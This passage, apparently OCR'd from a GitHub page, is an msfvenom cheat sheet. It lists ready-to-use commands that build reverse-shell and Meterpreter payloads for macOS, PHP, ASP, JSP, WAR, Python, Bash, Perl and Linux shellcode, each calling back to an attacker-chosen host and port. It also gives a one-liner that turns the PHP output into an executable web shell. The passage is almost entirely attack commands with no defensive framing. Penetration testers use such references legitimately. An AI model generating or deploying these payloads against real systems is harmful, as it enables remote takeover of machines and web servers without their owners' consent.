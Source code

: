     _Mac_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

    **Web Payloads**

    _PHP_

    `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    OR

    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

    `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

    _ASP_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

    _JSP_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

    _WAR_

    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

    **Scripting Payloads**

    _Python_

    `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

    _Bash_

    `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

    _Perl_

    `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

    **Shellcode**

    For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    _Linux Based Shellcode_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
